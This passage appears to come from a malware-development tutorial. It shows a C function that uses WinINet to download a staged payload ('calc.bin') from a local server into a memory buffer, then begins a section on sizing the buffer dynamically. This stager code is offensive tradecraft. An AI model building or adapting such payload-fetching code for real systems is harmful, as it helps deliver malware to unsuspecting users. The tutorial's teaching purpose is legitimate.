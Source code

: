 `GetPayloadFromUrl` is a function that uses the previously discussed steps to fetch the payload from a remote server and stores it in a buffer.

```c
BOOL GetPayloadFromUrl() {

	HINTERNET	hInternet              = NULL,
			    hInternetFile          = NULL;
	
	PBYTE		pBytes                 = NULL;

	DWORD		dwBytesRead            = NULL;

	// Opening an internet session handle
	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL) {
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Opening a handle to the payload's URL
	hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL) {
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Allocating a buffer for the payload
	pBytes = (PBYTE)LocalAlloc(LPTR, 272);

	// Reading the payload
	if (!InternetReadFile(hInternetFile, pBytes, 272, &dwBytesRead)) {
		printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	InternetCloseHandle(hInternet);
	InternetCloseHandle(hInternetFile);
	InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	LocalFree(pBytes);

	return TRUE;
}

```

### Dynamic Payload Size Allocation

The above implementation works when the payload size is known. When the size is unknown or is larger than the number of bytes specified in `InternetReadFile`, a heap overflow will occur resulting in the binary crashing.
